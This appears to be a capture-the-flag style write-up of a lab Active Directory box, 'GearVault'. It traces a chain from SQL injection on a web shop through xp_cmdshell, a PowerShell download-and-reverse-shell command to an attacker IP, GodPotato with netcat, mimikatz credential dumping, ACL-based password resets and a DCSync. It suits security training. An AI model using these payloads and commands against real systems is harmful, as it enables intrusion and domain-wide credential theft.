





+++
title = "GearVault"
date = 2026-11-17
description = "Assumed-breach AD box that starts with error-based SQLi on the web shop, reaches xp_cmdshell through a TRUSTWORTHY database, and uses GodPotato for SYSTEM on the web server. An Autologon.exe LSA secret gives a domain foothold, a GenericAll chain through IT-Helpdesk gets a WinRM user, and Backup Operators access ends in a DCSync off the domain controller."
draft = false

[taxonomies]
tags = ["MSSQL", "SQL injection", "Plaintext credentials", "ACL abuse", "SeImpersonatePrivilege", "Active Directory"]

[extra]
platform = "hacksmarter"
os = "windows"
difficulty = "medium"
chain = ["Error-based SQLi to xp_cmdshell", "GodPotato to SYSTEM", "LSA secret foothold", "IT-Helpdesk GenericAll chain", "Backup Operators to DCSync"]
+++

> You have been hired to conduct a penetration test against GearVault, a small outdoor and camping retailer that runs its business almost entirely through a single online shop. GearVault operates on a tight budget with a lean, part-time IT function and no dedicated security staff.
>
> Your team learned through social engineering that admins log directly into the Domain Controller and keep their tools and maintenance scripts on it (`C:\IT`), and run scheduled jobs (such as nightly directory backups) from the same machine.
>
> Your task is to start from the web shop and assess whether an attacker can gain a foothold, move laterally through the network, and eventually escalate privileges to Domain Admin.
>
> Initial Access: the client has provided you with VPN access to their network, but no credentials.

No creds at all here, so the whole thing starts from the web shop and works its way up to the DC.

## Recon

```bash
nmap -sCV -p- -Pn 10.0.0.4,5 -v -oN nmap/tcp_full.txt --min-rate 1500
```



```text
Nmap scan report for localhost (10.0.0.4)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-11-17 07:44:20Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: gearvault.local)
445/tcp   open  microsoft-ds?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: gearvault.local)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server
| ssl-cert: Subject: commonName=DC01.gearvault.local
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required

Nmap scan report for localhost (10.0.0.5)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Did not follow redirect to http://www.gearvault.local
3389/tcp open  ms-wbt-server
| ssl-cert: Subject: commonName=SHOP-WEB01.gearvault.local
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

Two boxes: `DC01` at 10.0.0.4 with the usual DC ports, SMB signing enabled and required so no easy relay there, and `SHOP-WEB01` at 10.0.0.5 with just IIS, RDP and WinRM. The `http-title` redirect on 80 names `www.gearvault.local`, so that goes in `/etc/hosts`:

```bash
echo '10.0.0.5 www.gearvault.local' | sudo tee -a /etc/hosts
```

That drops me on the public site, which only has a static landing page and a `support@gearvault.local` contact address. Nothing to work with there, so vhost fuzz the web server instead:

```bash
ffuf -H "Host: FUZZ.gearvault.local" -u http://gearvault.local \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fw 9
```

```text,hl_lines=1 2
www                     [Status: 200, Size: 4845, Words: 705, Lines: 104]
shop                    [Status: 200, Size: 39723, Words: 2253, Lines: 105]
```

`shop` is the real target. By the time the shop's SQLi was running I'd also added `shop.gearvault.local` and a DC01 entry to the hosts file:

```text
10.0.0.5 www.gearvault.local shop.gearvault.local gearvault.local
10.0.0.4 DC01.gearvault.local gearvault.local dc01
```

## Foothold: SQLi to xp_cmdshell on SHOP-WEB01

The shop has a search box on its homepage. Throwing a time-based payload at it confirms the field is vulnerable:

```text
1; WAITFOR DELAY '00:00:05';-- -
```



the page errors out, but only after sitting there for five seconds first, so the query is running before it breaks. ASP.NET's default error page gives the full stack trace too, including the exact line in `Default.aspx` that built the query, which is a gift for figuring out the column count.

### reading out the server

With the column count worked out, a UNION pulls `@@version` straight into the error message:

```text
' UNION SELECT @@version, NULL, NULL, NULL, NULL, NULL-- -
```



```text
Microsoft SQL Server 2022 (RTM) - 16.0.1000.6 (X64)
Oct  8 2022 05:58:25
Copyright (C) 2022 Microsoft Corporation
Developer Edition (64-bit) on Windows Server 2025 Datacenter 10.0 <X64> (Build 26100: ) (Hypervisor)
```

and the current login:

```text
' UNION SELECT SYSTEM_USER, NULL, NULL, NULL, NULL, NULL-- -
```



```text
Conversion failed when converting the nvarchar value 'shop_svc' to data type int.
```

`shop_svc`, a dedicated SQL login for the shop, not `sa`. Listing the other databases on the instance and whether they're trustworthy and who owns them:

```text
' UNION SELECT (SELECT STRING_AGG('db='+name+':t='+CAST(is_trustworthy_on AS varchar)+':o='+ISNULL(SUSER_SNAME(owner_sid),'?'),' || ') FROM sys.databases), NULL, NULL, NULL, NULL, NULL-- -
```

```text
db=master:t=0:o=sa || db=tempdb:t=0:o=sa || db=model:t=0:o=sa || db=msdb:t=1:o=sa || db=GearVaultShop:t=1:o=sa
```

`GearVaultShop`, the shop's own database, is `TRUSTWORTHY` and owned by `sa`. A trustworthy database lets code inside it run `WITH EXECUTE AS OWNER`, and the owner here is `sa`, so a procedure created in `GearVaultShop` that asks to run as its owner actually runs as `sa` on the whole instance, no matter which login created it.

```text
'; USE GearVaultShop; EXEC('CREATE PROCEDURE dbo.sp_esc WITH EXECUTE AS OWNER AS EXEC sp_addsrvrolemember ''shop_svc'',''sysadmin''');-- -
'; USE GearVaultShop; EXEC dbo.sp_esc;-- -
```

```text
' UNION SELECT 'sysadmin='+CAST(IS_SRVROLEMEMBER('sysadmin') AS varchar), NULL, NULL, NULL, NULL, NULL-- -
```

```text,hl_lines=1
sysadmin=1
```

`shop_svc` is sysadmin now. From there `xp_cmdshell` is one `sp_configure` away:

```text
'; EXEC sp_configure 'show advanced options',1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE;-- -
```

### chasing a machine hash with Responder, a dead end

Before going for code execution, I tried `xp_dirtree` against a UNC path to grab whatever account the SQL Server service runs as:

```text
'; EXEC master..xp_dirtree '\\192.168.211.2\share';-- -
```

```bash
sudo responder -I tun0
```

```text,hl_lines=2
[SMB] NTLMv2-SSP Client   : 10.0.0.5
[SMB] NTLMv2-SSP Username : GEARVAULT\SHOP-WEB01$
[SMB] NTLMv2-SSP Hash     : SHOP-WEB01$::GEARVAULT:83efc98cce4e8be3:039A36C8F2AE783D05F5E28DB16C1A04:...
```

Interesting on its own: `xp_dirtree` authenticates as `SHOP-WEB01$`, the machine account, not `shop_svc`. That's the MSSQL service account mapping to a virtual account tied to the computer, not the SQL login I'm running queries as. I threw it at rockyou anyway:

```text
Hash.Target......: SHOP-WEB01$::GEARVAULT:83efc98cce4e8be3:039a36c8f2a...000000
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Recovered........: 0/1 (0.00%) Digests (total), 0/1 (0.00%) Digests (new)
Progress.........: 14344385/14344385 (100.00%)
```

Exhausted, nothing recovered. Dead end, back to `xp_cmdshell`.

### egress check and the shell

```text
'; EXEC xp_cmdshell 'ping -n 1 192.168.211.2';-- -
```

```bash
sudo tcpdump -i tun0 icmp
```

```text,hl_lines=1
03:33:09.392576 IP www.gearvault.local > localhost: ICMP echo request, id 1, seq 3, length 40
03:33:09.392595 IP localhost > www.gearvault.local: ICMP echo reply, id 1, seq 3, length 40
```

Egress confirmed, so get a real shell going:

```text
'; EXEC xp_cmdshell 'powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString(''http://192.168.211.2/win/shells/powercat.ps1''); powercat -c 192.168.211.2 -p 443 -e cmd"';-- -
```

```bash
penelope -i tun0 -p 443
```

```text,hl_lines=2
[+] [New Reverse Shell] => SHOP-WEB01 10.0.0.5 Microsoft_Windows_Server_2025_Datacenter-x64-based_PC
👤 nt service\mssqlserver 😍️ Session ID <1>
```

`nt service\mssqlserver`, which matches `xp_cmdshell` always running under the SQL Server service's own account, not `shop_svc`.

## Privesc: SHOP-WEB01 to SYSTEM

```powershell
whoami /priv
```

```text,hl_lines=5
Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
```

`SeImpersonatePrivilege` enabled on a service account is the textbook potato setup. `systeminfo` also showed Credential Guard running and Virtualization-based security up, which matters later but not here:

```powershell
.\GodPotato-NET4.exe -cmd "cmd /c whoami > C:\Tools\gotwho.txt"
```

```text,hl_lines=6 8
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\d459b7e3-b030-4b0e-8cae-aa0ff0fe1e7a\pipe\epmapper
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] Start Search System Token
[*] PID : 416 Token:0x680  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] CurrentUser: NT AUTHORITY\SYSTEM
```

```powershell
type gotwho.txt
```

```text
nt authority\system
```

SYSTEM on `SHOP-WEB01`. A second GodPotato run drops a proper shell instead of writing to a file:

```powershell
.\GodPotato-NET4.exe -cmd "cmd /c C:\Tools\nc.exe 192.168.211.2 1338 -e cmd"
```

```text,hl_lines=1
👤 nt authority\system 😍️ Session ID <1>
```

## Lateral: SHOP-WEB01 to DC01

### two dead ends with mimikatz

```powershell
iwr http://192.168.211.2/win/creds/mimikatz.exe -OutFile mimikatz.exe
.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::cache" "exit"
```

```text,hl_lines=3 8
[NL$1 - 11/17/2026 7:43:20 AM]
RID       : 00000451 (1105)
User      : GEARVAULT\b.brown
MsCacheV2 : b7a8a7c3e14c8e24fb166702187767e1

[NL$2 - 10/8/2026 1:51:14 PM]
RID       : 000001f4 (500)
User      : GEARVAULT\Administrator
MsCacheV2 : 38a23bc45eaf1f2fa98e2718cca169f3
```

Cached domain logons for `b.brown` and `Administrator`. DCC2 in hashcat format is `$DCC2$10240#username#hash`, and neither cracked against rockyou. Dead end.

`lsadump::sam` gave the local Administrator hash instead, and that one did authenticate:

```bash
nxc rdp 10.0.0.5 -u Administrator -H 0ed127341a97ca38aeeaa8133e85faa4 --local-auth
```

```text,hl_lines=1
RDP         10.0.0.5        3389   SHOP-WEB01       [+] SHOP-WEB01\Administrator:0ed127341a97ca38aeeaa8133e85faa4 (Pwn3d!)
```

but it's a local account on a box I already own as SYSTEM. Nothing new, also a dead end.

### Autologon leaves a password in LSA secrets

`C:\Tools` had `Autologon.exe` sitting next to the privesc binaries. Sysinternals' Autologon stores the password it needs on every boot as the `DefaultPassword` LSA secret, and `lsadump::secrets` reads LSA secrets straight out of the SECURITY hive:

```powershell
.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::secrets" "exit"
```

```text,hl_lines=2
Secret  : DefaultPassword
cur/text: BrowN!!!2026
```

`systeminfo` earlier showed Credential Guard running on this box, and the secret still came out in plaintext. Confirm it works domain-wide:

```bash
nxc smb 10.0.0.4 -u b.brown -p 'BrowN!!!2026'
```

```text,hl_lines=2
SMB         10.0.0.4        445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64
SMB         10.0.0.4        445    DC01             [+] gearvault.local\b.brown:BrowN!!!2026
```

The boot time and the cache timestamp from `lsadump::cache` line up with this: `systeminfo` logged `System Boot Time: 11/17/2026 7:40:08 AM`, and `b.brown`'s cached logon above is `11/17/2026 7:43:20 AM`, three minutes after boot. That's Autologon doing its job on startup.

## Lateral: b.brown to m.kelly

```bash
rusthound-ce -d gearvault.local -u b.brown -p 'BrowN!!!2026' -f DC01.gearvault.local -i 10.0.0.4 -c All -z
```

```text,hl_lines=4
[2026-11-17T09:15:42Z INFO  rusthound_ce::transport::ldap] Connected to GEARVAULT.LOCAL Active Directory on LDAP!
[2026-11-17T09:16:33Z INFO  rusthound_ce::json::maker::common] 12 users parsed!
[2026-11-17T09:16:33Z INFO  rusthound_ce::json::maker::common] 66 groups parsed!
[2026-11-17T09:16:33Z INFO  rusthound_ce::json::maker::common] .//20261117041633_gearvault-local_rusthound-ce.zip created!
```

Into BloodHound, `b.brown` is a member of `IT-Helpdesk`, and that group has `GenericAll` over five accounts: `a.carter`, `d.nguyen`, `r.patel`, `m.kelly` and `c.sanches`.



`m.kelly` is also in Remote Management Users, which makes her the useful one of the five, since `GenericAll` is enough to reset a password outright:

```bash
bloodyad --host '10.0.0.4' -d 'gearvault.local' -u 'b.brown' -p 'BrowN!!!2026' set password 'm.kelly' 'Pass123!'
```

```text,hl_lines=1
[+] Password changed successfully!
```

Same command, four more times, just the target username changed, and all five accounts end up with `Pass123!`'s NT hash:

```bash
nxc winrm 10.0.0.4 -u 'm.kelly' -p 'Pass123!'
```

```text,hl_lines=2
WINRM       10.0.0.4        5985   DC01             [*] Windows 11 / Server 2025 Build 26100
WINRM       10.0.0.4        5985   DC01             [+] gearvault.local\m.kelly:Pass123! (Pwn3d!)
```

## Lateral: m.kelly to svc-backup

```powershell
dir C:\IT
dir C:\Backups
```

```text
Access to the path 'C:\IT' is denied.
Access to the path 'C:\Backups' is denied.
```

`m.kelly` can log in but can't read either of the two folders the scenario pointed at. Of the other four accounts `IT-Helpdesk` has `GenericAll` over, `c.sanches` is the only one in `IT-Admins`, so that's the one who can actually read `C:\IT`. `c.sanches` has no interactive logon rights here though, so getting commands to run as him from inside the `m.kelly` session means `RunasCs` instead of a second WinRM or RDP session:

```powershell
iwr http://192.168.211.2/win/sharp/_RunasCs.exe -OutFile _RunasCs.exe
.\_RunasCs.exe c.sanches Pass123! "cmd /c whoami /groups" -d gearvault.local -l 2
```

```text,hl_lines=7
GROUP INFORMATION
-----------------
Group Name                                 Type             SID
========================================== ================ ==============================================
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11
NT AUTHORITY\This Organization             Well-known group S-1-5-15
GEARVAULT\IT-Admins                        Group            S-1-5-21-3200346375-2594283208-3089663343-1112
Authentication authority asserted identity Well-known group S-1-18-1
```

`IT-Admins` confirmed. Pull `C:\IT` out with `robocopy` run as him:

```powershell
.\_RunasCs.exe c.sanches Pass123! "cmd /c robocopy C:\IT C:\TEMP\x /E & icacls C:\TEMP\x /grant Everyone:R /T" -d gearvault.local -l 8
```

```text,hl_lines=10 12
-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------
    Source : C:\IT\
     Dest : C:\TEMP\x\
          New Dir          0    C:\IT\
          New Dir          1    C:\IT\Logs\
            New File                1844        backup.log
          New Dir          4    C:\IT\Scripts\
            New File                1291        Backup-SystemState.ps1
          New Dir          2    C:\IT\Tools\
            New File                5120        Unlock-Account.exe
```

`Backup-SystemState.ps1` is the nightly job the scenario mentioned:

```powershell
type C:\TEMP\x\Scripts\Backup-SystemState.ps1
```

```powershell,hl_lines=2 5
$ErrorActionPreference = "Continue"
$BackupAccount = "svc-backup"
$Share         = "\\SHOP-WEB01\Backup$"
$ShareUser     = "GEARVAULT\svc-backup"
$SharePass     = "Backup#Svc2026"
$Local         = "C:\Backups\SystemState"
$Ifm           = "C:\Backups\SystemState\IFM"

try {
    Import-Module ActiveDirectory -ErrorAction Stop
    Enable-ADAccount -Identity $BackupAccount -ErrorAction Stop
    ntdsutil "activate instance ntds" "ifm" "create full $Ifm" "quit" "quit" 2>&1 | Add-Content $Log
    net use $Share /user:$ShareUser $SharePass 2>&1 | Add-Content $Log
    robocopy $Ifm $Share /mir /njh /njs /ndl /nc /ns 2>&1 | Add-Content $Log
}
finally {
    Disable-ADAccount -Identity $BackupAccount -ErrorAction SilentlyContinue
}
```

the script itself enables `svc-backup`, takes an IFM snapshot of NTDS, copies it out over SMB, then disables the account again when it's done, so outside of its scheduled window `svc-backup` is locked:

```bash
nxc smb 10.0.0.4 -u svc-backup -p 'Backup#Svc2026'
```

```text,hl_lines=1
SMB         10.0.0.4        445    DC01             [-] Connection Error: The NETBIOS connection with the remote host timed out.
```

### Enable-ADAccount as c.sanches, a dead end

`c.sanches` is in `IT-Admins`, so the obvious move is to run the same `Enable-ADAccount` the script runs:

```powershell
.\_RunasCs.exe c.sanches Pass123! "powershell Enable-ADAccount -Identity svc-backup -ErrorAction Stop" -d gearvault.local -l 8
```

```text,hl_lines=1
Enable-ADAccount : Insufficient access rights to perform the operation
```

`IT-Admins` isn't enough on its own. Dead end.

### why Unlock-Account.exe works as m.kelly

`Unlock-Account.exe` was sitting in `C:\IT\Tools` next to `ntrights.exe`. Running it against `svc-backup`:

```powershell
.\Unlock-Account.exe svc-backup
```

```text,hl_lines=1
enabled + unlocked: svc-backup
```

It works, and `m.kelly` has no BloodHound edge onto `svc-backup` at all, so whatever privilege this needs isn't hers. `strings` on the binary answers it:

```bash
strings Unlock-Account.exe
```

```text,hl_lines=1 2
GEARVAULT\svc-useradmin
Svc#UserMgmt2026
10.0.0.4
LDAP://
(sAMAccountName=
userAccountControl
IsAccountLocked
enabled + unlocked:
```

The tool carries its own hardcoded LDAP bind, `svc-useradmin`'s own credentials, baked into the compiled binary. It never uses `m.kelly`'s session for anything except running the process. `svc-backup`'s own `nTSecurityDescriptor`, pulled later from LDAP, confirms `svc-useradmin` (object RID 1116) holds a `WP` ACE directly on the account:

```text,hl_lines=1
(OA;;WP;bf967a68-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3200346375-2594283208-3089663343-1116)
```

so whoever runs this exe is really acting as `svc-useradmin`, not as themselves. Any of the four other `IT-Helpdesk` targets could have run it the same way.

```bash
nxc smb 10.0.0.4 -u svc-backup -p 'Backup#Svc2026'
```

```text,hl_lines=2
SMB         10.0.0.4        445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64
SMB         10.0.0.4        445    DC01             [+] gearvault.local\svc-backup:Backup#Svc2026
```

`svc-backup` is in `Backup Operators`, which is the rest of the chain.

## Privesc: svc-backup to Domain Admin

Backup Operators can read any file on the DC regardless of ACLs, including the registry hives, without needing to be local admin first:

```bash
mkdir share
sudo impacket-smbserver -smb2support share share
```

```bash
impacket-reg 'GEARVAULT.LOCAL/svc-backup:Backup#Svc2026@10.0.0.4' backup -o '\\192.168.211.2\share'
```

```text,hl_lines=2 3 4
[!] Cannot check RemoteRegistry status. Triggering start trough named pipe...
[*] Saved HKLM\SAM to \\192.168.211.2\share\SAM.save
[*] Saved HKLM\SYSTEM to \\192.168.211.2\share\SYSTEM.save
[*] Saved HKLM\SECURITY to \\192.168.211.2\share\SECURITY.save
```

```bash
sudo impacket-secretsdump LOCAL -sam SAM.save -system SYSTEM.save -security SECURITY.save
```

```text,hl_lines=1 2
[*] $MACHINE.ACC
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:ef04826dbc4e08a226f8f7e9f7f13fde
```

The DC's own machine account hash, from its local hives rather than over DRSUAPI. With `DC01$`'s hash, DRSUAPI will answer for it:

```bash
impacket-secretsdump -hashes :ef04826dbc4e08a226f8f7e9f7f13fde 'GEARVAULT.LOCAL/DC01$@10.0.0.4' -just-dc-user Administrator
```

```text,hl_lines=2 3
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dd8b98b5c8b8465dcee4360c9581aca9:::
Administrator:aes256-cts-hmac-sha1-96:a30b7cf87eb79b0635499f23768976a468c28f5ecd254bad6d708bbaa1723fd5
```

```bash
impacket-psexec -hashes :dd8b98b5c8b8465dcee4360c9581aca9 'GEARVAULT.LOCAL/Administrator@10.0.0.4'
```

```text
whoami
nt authority\system
```

SYSTEM on the DC. The same Administrator AES key also works over Kerberos instead of NTLM, for a cleaner path in:

```bash
impacket-getTGT 'GEARVAULT.LOCAL/Administrator' -aesKey a30b7cf87eb79b0635499f23768976a468c28f5ecd254bad6d708bbaa1723fd5 -dc-ip 10.0.0.4
export KRB5CCNAME=Administrator.ccache
impacket-psexec -k -no-pass 'GEARVAULT.LOCAL/Administrator@DC01.GEARVAULT.LOCAL' -dc-ip 10.0.0.4
```

```text
whoami
nt authority\system
```

A full DCSync confirms the rest of the domain, krbtgt included:

```bash
impacket-secretsdump DC01.GEARVAULT.LOCAL -k -dc-ip 10.0.0.4
```

```text,hl_lines=3 5 7
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dd8b98b5c8b8465dcee4360c9581aca9:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:433effd5a1575cb2d7e767a104109ed7:::
gearvault.local\b.brown:1105:aad3b435b51404eeaad3b435b51404ee:a0f915f9106df4fe1e26eb03be53b5c9:::
gearvault.local\svc-backup:1115:aad3b435b51404eeaad3b435b51404ee:b2757250ca5c51ba147f8290277ef407:::
gearvault.local\svc-useradmin:1116:aad3b435b51404eeaad3b435b51404ee:09779e6dd11fa3feda1eb41783488e8b:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:ef04826dbc4e08a226f8f7e9f7f13fde:::
SHOP-WEB01$:1103:aad3b435b51404eeaad3b435b51404ee:76ed07f60576b5969a2d2f63a23f8a96:::
```

done.


## Appendix

- [GodPotato](https://github.com/BeichenDream/GodPotato)
- [RunasCs](https://github.com/antonioCoco/RunasCs)
- [Impacket](https://github.com/fortra/impacket)
- [NetExec](https://github.com/Pennyw0rth/NetExec)
- [BloodyAD](https://github.com/CravateRouge/bloodyAD)
- [RustHound-CE](https://github.com/g0h4n/RustHound-CE)
- [mimikatz](https://github.com/gentilkiwi/mimikatz)
- [Sysinternals Autologon](https://learn.microsoft.com/en-us/sysinternals/downloads/autologon)
